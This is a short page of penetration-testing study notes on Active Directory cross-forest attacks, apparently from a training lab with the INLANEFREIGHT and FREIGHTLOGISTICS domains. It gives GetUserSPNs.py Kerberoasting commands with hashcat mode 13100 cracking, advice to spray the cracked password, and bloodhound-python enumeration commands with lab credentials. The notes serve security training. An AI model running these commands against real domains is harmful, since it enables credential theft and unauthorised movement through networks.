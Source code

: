 ## Cross-Forest Kerberoasting

**Using GetUserSPNs.py
```
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

**Using the -request Flag
```
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```
- hashcat mode 13100
- Search for password reuse in current domain after cracking
- Attempt single password spray with the cracked password in current domain

## Hunting Foreign Group Membership with Bloodhound-python

If we are not connected to via DNS, we must edit resolv.conf
**Adding INLANEFREIGHT.LOCAL Information to the end of /etc/resolv.conf
```
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

**Running bloodhound-python Against INLANEFREIGHT.LOCAL
```
bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```

**Compressing the File with zip -r
```
zip -r ilfreight_bh.zip *.json
```

Do the same with the other domain.
**Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf
```
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

**Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL
```
bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```

**Viewing Dangerous Right through BloodHound
Analysis > Users with Foreign Domain Group Membership > INLANEFREIGHT.LOCAL

